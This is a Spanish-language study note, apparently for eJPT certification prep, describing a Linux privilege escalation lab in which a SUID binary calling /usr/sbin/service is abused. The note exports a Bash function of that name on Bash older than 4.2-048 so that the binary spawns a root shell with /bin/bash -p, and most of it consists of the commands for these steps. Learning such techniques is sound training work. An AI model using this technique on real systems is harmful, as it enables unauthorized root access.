- El ejecutable /usr/local/bin/suid-env2 es idéntico a /usr/local/bin/suid-env excepto que utiliza la ruta absoluta del ejecutable del servicio (/usr/sbin/service) para iniciar el servidor web apache2.

- Verifique esto con cadenas:

```
 strings /usr/local/bin/suid-env2
```

- En las versiones de Bash <4.2-048, es posible definir funciones de shell con nombres que se asemejen a las rutas de archivo y luego exportar esas funciones para que se utilicen en lugar de cualquier ejecutable real en esa ruta de archivo.

- Verifique que la versión de Bash instalada en la máquina virtual Debian sea inferior a 4.2-048:

```
/bin/bash --version
```

- Cree una función Bash con el nombre "/usr/sbin/service" que ejecute un nuevo shell Bash (usando -p para conservar los permisos) y exporte la función:

```
function /usr/sbin/service { /bin/bash -p; }  
export -f /usr/sbin/service
```

- Ejecute el ejecutable suid-env2 para obtener un shell raíz:

```
/usr/local/bin/suid-env2
```

enlace:
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Linux/SUID - SGID Executables  Known - Exploits]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Linux/SUID - SGID Executables - Environment Variables]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Linux/SUID - SGID Executables - Shared Object Injection]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Linux/SUID - SGID Executables - Abusing Shell Features (2)]]